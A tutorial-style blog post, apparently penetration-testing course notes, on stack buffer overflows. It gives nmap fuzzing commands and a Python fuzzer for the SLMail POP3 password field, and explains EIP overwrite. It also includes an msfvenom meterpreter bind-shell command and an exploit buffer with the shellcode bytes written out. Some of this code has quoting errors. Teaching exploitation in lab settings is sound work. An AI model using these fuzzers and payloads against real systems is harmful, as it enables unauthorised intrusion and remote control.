 ```yaml
---
layout: post
section-type: post
title: Buffer overflows
category: buffer_overflow
tags: [ 'buffer_overflow', 'tutorials' ]
---
```

# Buffer Overflows

Those are the main ways of identifying flaws in applications

- If the source code of the application is available, then source code review is probably the easiest way to identify bugs.
- If the application is closed source, you can use reverse engineering techniques, or fuzzing, to find bugs.

## A look inside Stack while a simple app is running

![]({{site.base_url}}/assets/img/posts/buffer_overflow/inside_stack.png)

## Fuzzing

- Fuzzing involves sending malformed data into application input and watching for unexpected crashes.
- An unexpected crash indicates that the application might not filter certain input correctly. This could lead to discovering an exploitable vulnerability.
- Nmap Fuzzers:

  - NMap Fuzzer List
      [https://nmap.org/nsedoc/categories/fuzzer.html](https://nmap.org/nsedoc/categories/fuzzer.html)

  - NMap HTTP Form Fuzzer
    {% highlight shell-session %}
      nmap --script http-form-fuzzer --script-args
      'http-form-fuzzer.targets={1={path=/},2={path=/register.html}}'
      -p 80 $ip
    {% endhighlight %}

  - Nmap DNS Fuzzer
    {% highlight shell-session %}
    nmap --script dns-fuzz --script-args timelimit=2h $ip -d
    {% endhighlight %}

- MSFvenom
    [*https://www.offensive-security.com/metasploit-unleashed/msfvenom/*](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

### A Word About DEP and ASLR

- __DEP__ (Data Execution Prevention) is a set of hardware, and software, technologies that perform additional checks on memory, to help prevent malicious code from running on a system.
- The primary benefit of __DEP__ is to help prevent code execution from data pages, by raising an exception, when execution occurs.
- __ASLR__ (Address Space Layout Randomization) randomizes the base addresses of loaded applications, and DLLs, every time the Operating System is booted.

#### Interacting with the POP3 Protocol

  > if the protocol under examination was unknown to us, we would either need to look up the RFC of the protocol format, or learn it ourselves, using a tool like Wireshark.

- To reproduce the netcat connection usage performed earlier in the course using a Python script, our code would look similar to the following

{% highlight python %}
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  print "\nSending vil buffer..."
  s.connect(('10.0.0.22',110))     #connect to IP, POP3 port
  data = s.recv(1024)     # receive banner
  print data     # print banner

  s.send('USER   test' +'\r\n')     # end username "test"
  data = s.recv(1024)     # receive reply
  print data     # print reply

  s.send('PASS test\r\n')     # send password "test"
  data = s.recv(1024)     # receive reply
  print data     # print reply

  s.close()     # close socket
  print "\nDone!"

except:
  print "Could not connect to POP3!"
{% endhighlight %}

- Taking this simple script and modifying it to fuzz the password field during the login process is easy. The resulting script would look like the following.

{% highlight python %}
#!/usr/bin/python
import socket

# Create an array of buffers, from 10 to 2000, with increments of 20.
buffer=["A"]
counter=100

while len(buffer) <= 30:
  buffer.append("A"*counter)
  counter=counter+200

for string in buffer:
  print "Fuzzing PASS with %s bytes" %len(string)
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.recv(1024)
  s.send('USER test\r\n')
  s.recv(1024)
  s.send('PASS ' + string + '\r\n')
  s.send('QUIT\r\n')
  s.close()
{% endhighlight %}

- Run this script against your SLMail instance, while attached to __Immunity Debugger__.
- The results of running this script shows that the __Extended Instruction Pointer (EIP)__ register has been overwritten with our input buffer of A’s (the hex equivalent of the letter A is \x41).
- This is of particular interest to us, as the EIP register also controls the execution flow of the application.
- This means that if we craft our exploit buffer carefully, we might be able to divert the execution of the program to a place of our choosing, such as a into the memory where we can introduce some reverse shell code, as part of our buffer.

![Execution Halted in OllyDbg]({{site.base_url}}/assets/img/posts/buffer_overflow/33.png)

## Check for bad characters

{% highlight shell-session %}
>> python -c \
'print "A"*80 + "B"*4 + \
"x01x02x03x04x05x06x07x08x09x0ax0bx0cx0dx0ex0fx10" + \
"x11x12x13x14x15x16x17x18x19x1ax1bx1cx1dx1ex1fx20" + \
"x21x22x23x24x25x26x27x28x29x2ax2bx2cx2dx2ex2fx30" + \
"x31x32x33x34x35x36x37x38x39x3ax3bx3cx3dx3ex3fx40" + \
"x41x42x43x44x45x46x47x48x49x4ax4bx4cx4dx4ex4fx50" + \
"x51x52x53x54x55x56x57x58x59x5ax5bx5cx5dx5ex5fx60" + \
"x61x62x63x64x65x66x67x68x69x6ax6bx6cx6dx6ex6fx70" + \
"x71x72x73x74x75x76x77x78x79x7ax7bx7cx7dx7ex7fx80" + \
"x81x82x83x84x85x86x87x88x89x8ax8bx8cx8dx8ex8fx90" + \
"x91x92x93x94x95x96x97x98x99x9ax9bx9cx9dx9ex9fxa0" + \
"xa1xa2xa3xa4xa5xa6xa7xa8xa9xaaxabxacxadxaexafxb0" + \
"xb1xb2xb3xb4xb5xb6xb7xb8xb9xbaxbbxbcxbdxbexbfxc0" + \
"xc1xc2xc3xc4xc5xc6xc7xc8xc9xcaxcbxccxcdxcexcfxd0" + \
"xd1xd2xd3xd4xd5xd6xd7xd8xd9xdaxdbxdcxddxdexdfxe0" + \
"xe1xe2xe3xe4xe5xe6xe7xe8xe9xeaxebxecxedxeexefxf0" + \
"xf1xf2xf3xf4xf5xf6xf7xf8xf9xfaxfbxfcxfdxfexff"'
{% endhighlight %}

## Generate meterpreter bind-tcp payload

{% highlight shell-session %}
>> msfvenom -p linux/x86/meterpreter/bind_tcp -b="0x00" -f python
{% endhighlight %}

{% highlight python %}
# using output from last command we can create our full payload
python -c \
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" + \
"BBBB" + \
'print "A"*80 + "B"*4 + "x90" * (400 - 137) + \
"\xba\x8a\x2a\xb0\xa4\xd9\xed\xd9\x74\x24\xf4\x5d\x31" + \
"\xc9\xb1\x1c\x31\x55\x14\x03\x55\x14\x83\xed\xfc\x68" + \
"\xdf\xda\xd9\x34\xb9\xa9\x25\x7d\xb9\xdd\x29\x7d\x33" + \
"\x3e\x4f\xfc\xa0\xc1\x60\x33\xa6\xf3\x5b\x3c\x44\xa0" + \
"\x18\x91\xe1\x45\x16\xf4\x46\x2f\xe5\x76\xf7\xda\xf1" + \
"\x22\x92\x18\x90\xcb\x32\x8a\xed\x2a\xd8\xba\xb6\xc6" + \
"\x7b\x9b\x85\x96\x13\x98\xd2\x82\x42\xc4\x84\xf8\x1c" + \
"\xf8\x38\xed\x80\x96\x28\x5c\x69\xee\xa8\x34\xef\xa8" + \
"\xe7\x48\x3e\xab\x48\x2e\x0c\xac\xf9\xed\x3e\xcb\x70" + \
"\xa0\x3a\xd9\x03\xd1\xf5\xed\xb3\xd6\x34\x6d\x34\x07" + \
"\x9d\xde\x3d\x7a\xa2\xe0\xa3"'
{% endhighlight %}

